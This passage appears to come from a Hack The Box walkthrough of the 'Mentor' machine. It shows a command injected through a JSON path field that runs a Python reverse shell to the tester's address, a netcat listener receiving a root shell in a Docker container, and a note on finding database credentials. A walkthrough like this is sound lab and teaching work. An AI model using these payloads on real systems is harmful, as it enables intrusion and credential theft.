 Fiddling with possible injections for a long time and finally updating the path to:

```
{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.114\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
```

We can catch a shell back as root:

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.228.102] 47296
/app # 

/app # 
whoami
root
```

Running `ls -la` I see we are likely in a docker container, which explains us being root:

```
/app # ls -la
total 28
drwxr-xr-x    1 root     root          4096 Jun 28 17:32 .
drwxr-xr-x    1 root     root          4096 Jun 28 13:56 ..
-rw-r--r--    1 root     root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3  2022 Dockerfile
drwxr-xr-x    1 root     root          4096 Nov 10  2022 app
-rw-r--r--    1 root     root           672 Jun  4  2022 requirements.txt
-rw-r--r--    1 root     root          1024 Jun 28 17:32 rm
```

We can grab the user.txt flag from here:

![mentor_user_flag.png](../assets/mentor_assets/mentor_user_flag.png)

### Privilege Escalation

Browsing around the box I find a db.py file, which contains creds for an Postgres instance running internally:

![mentor_db_creds.png](../assets/mentor_assets/mentor_db_creds.png)
